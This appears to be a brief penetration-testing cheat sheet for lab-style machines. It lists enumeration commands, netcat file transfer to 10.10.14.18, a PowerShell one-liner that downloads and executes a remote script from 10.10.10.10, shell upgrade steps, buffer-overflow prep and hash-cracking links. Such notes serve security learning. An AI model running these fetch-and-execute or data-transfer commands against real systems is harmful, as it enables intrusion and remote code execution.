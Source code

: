 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files    
uname -a                         //Posible Linux Kernel Exploit  

WindowsEnum:
--------------------------------------------------
whoami /all  
systeminfo  


File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw  
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw  

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')  
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"  
Ctrl+Z  
stty raw -echo  
fg  

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit  

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100  
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000  


Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/  
https://hashes.org/  

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    /////Cheat Sheet Pentesting all the thing   
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //////File Transfer Cheat Sheet  
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   /////////SMB enumeration CheatSheet  
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //////////BuferOverFlow tutor  
